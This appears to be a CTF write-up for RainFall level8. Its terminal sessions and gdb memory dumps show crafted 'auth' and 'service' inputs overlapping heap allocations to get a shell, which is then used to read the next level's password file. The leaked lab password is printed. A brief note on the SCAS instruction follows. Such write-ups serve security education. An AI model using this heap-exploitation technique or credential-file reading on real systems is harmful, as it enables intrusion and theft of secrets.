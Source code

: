  Use-After-Free (UAF)  Vulnerabilities https://youtu.be/ZHghwsTRyzQ?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN


```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
(nil), (nil)
service
(nil), 0x804a008
reset
(nil), 0x804a008
login
Segmentation fault (core dumped)
```

```
auth AAAAAA
0x804a008, (nil)
service 1111
0x804a008, 0x804a018
service 1111
0x804a008, 0x804a028
login
$ pwd
/home/user/level8
```

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth aaa
0x804a008, (nil)
service jjjjjjjjjjjjjjjjjjjjjjjjjjjj
0x804a008, 0x804a018
login
$ pwd
/home/user/level8
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

```
set hei 0
set pag off
define hook-stop
x/20wx 0x0804a000
echo ------------[service] -----------------\n
x/s service
x service
echo ------------[auth] --------------------\n
x/s auth
x auth
echo ------------[auth+32] -----------------\n
x/s auth+0x20
echo ---------------------------------------\n
continue
end
```

```
(gdb) c
Continuing.
(nil), (nil)
auth AAAA
0x804a008, (nil)
serviceBBBBBBBBBBBBBBBB
0x804a008, 0x804a018
^C
Program received signal SIGINT, Interrupt.
0x804a000:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804a010:      0x00000000      0x00000019      0x42424242      0x42424242
0x804a020:      0x42424242      0x42424242      0x0000000a      0x00020fd9
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000000
------------[service] -----------------
0x804a018:       'B' <repeats 16 times>, "\n"
0x804a018:       'B' <repeats 16 times>, "\n"
------------[auth] --------------------
0x804a008:       "AAAA\n"
0x804a008:       "AAAA\n"
------------[auth+32] -----------------
0x804a028:       "\n"
---------------------------------------
login
$ pwd
/home/user/level8
```



The SCAS instruction is used to scan a string (SCAS = SCan A String). It compares the content of the accumulator (AL, AX, or EAX) against the current value pointed at by ES:[EDI].

When used together with the REPNE prefix (REPeat while Not Equal), SCAS scans the string searching for the first string element which is equal to the value in the accumulator. 
